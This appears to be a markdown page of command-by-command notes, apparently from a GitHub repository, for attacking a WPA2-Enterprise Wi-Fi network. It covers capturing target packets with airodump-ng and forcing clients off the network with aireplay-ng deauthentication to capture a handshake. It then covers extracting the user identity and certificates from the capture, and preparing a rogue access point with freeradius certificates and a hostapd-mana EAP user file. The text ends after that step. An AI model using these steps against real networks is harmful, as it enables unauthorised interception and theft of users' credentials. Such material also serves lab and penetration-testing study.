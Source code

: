 ## Capture targeted packets

```
sudo airodump-ng --band abg --manufacturer --bssid <target-bssid> -c <target-channel> -w enterprise wlan0mon
```

## Force client reconnect and capture handshake (do to different stations if need be):
-c: client
-a: AP
```
sudo aireplay-ng -0 5 -c <station-bssid> -a <ap-bssid> wlan0mon
```

## After we get it we go through cap file and extract the `IDENTITY USER` and Certificates to setup Rouge AP


1. Filters for "eap". Read the Target Response and check the entity field.

2. Filters for "tls.handshake.certificate":

3. Extract both the CA Certificate and the Server certificate.

4. Check their props:

```
openssl x509 -inform der -in ca.der -text
openssl x509 -inform der -in server.der -text
```
## Setup Rogue AP

1. Edit files and change Certificate Authority and :

```
nano /etc/freeradius/3.0/certs/ca.cnf
nano /etc/freeradius/3.0/certs/server.cnf
```

2. After that we do the following commands under `/etc/freeradius/3.0/certs` to generate `Diffie Hellman key` for `hostapd-mana`

```
cd /etc/freeradius/3.0/certs
rm dh
make 
```

3. We create `EAP` user filename `mana.eap_user`

```
nano mana.eap_user
*	PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```

